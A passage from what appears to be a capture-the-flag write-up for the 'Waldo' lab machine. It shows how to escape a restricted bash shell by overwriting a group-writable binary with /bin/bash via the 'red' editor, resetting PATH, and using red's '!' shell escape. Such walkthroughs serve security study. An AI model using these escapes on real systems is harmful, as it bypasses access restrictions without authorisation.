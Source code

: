 ```bash
monitor@waldo:~$ ls -la /home/monitor/app-dev
total 2236
drwxrwx--- 3 app-dev monitor    4096 May  3  2018 .
drwxr-x--- 5 root    monitor    4096 Jul 24  2018 ..
-rwxrwx--- 1 app-dev monitor   13704 Jul 24  2018 logMonitor
-r--r----- 1 app-dev monitor   13704 May  3  2018 logMonitor.bak
-rw-rw---- 1 app-dev monitor    2677 May  3  2018 logMonitor.c
-rw-rw---- 1 app-dev monitor     488 May  3  2018 logMonitor.h
-rw-rw---- 1 app-dev monitor 2217712 May  3  2018 logMonitor.h.gch
-rw-rw---- 1 app-dev monitor    6824 May  3  2018 logMonitor.o
-rwxr----- 1 app-dev monitor     266 May  3  2018 makefile
-r-xr-x--- 1 app-dev monitor     795 May  3  2018 .restrictScript.sh
drwxr-x--- 2 app-dev monitor    4096 May  3  2018 v0.1
```
- We can write to `logMonitor` file , if we are `monitor` group and we indeed are.

- using `red` to write

```bash
monitor@waldo:~$ red /bin/bash
1099016
w app-dev/logMonitor
1099016
q
monitor@waldo:~$ logMonitor
tmp.1rJG6ZpjDs: dircolors: command not found
monitor@waldo:~$ bash
tmp.1rJG6ZpjDs: bash: command not found
```

- We now exited the `rbash`, but we can see `command not found`, this is because of our `$PATH`, we can set that manually


- on our kali machine
```bash
─$ echo $PATH 
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
```

- copy this and set it in the ictim machine

```bash
monitor@waldo:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
monitor@waldo:~$ bash
```


__Another way__

```bash
monitor@waldo:/tmp$ red
!'/bin/sh'
$ 
```
- now navigate to `/bin` and execute bash

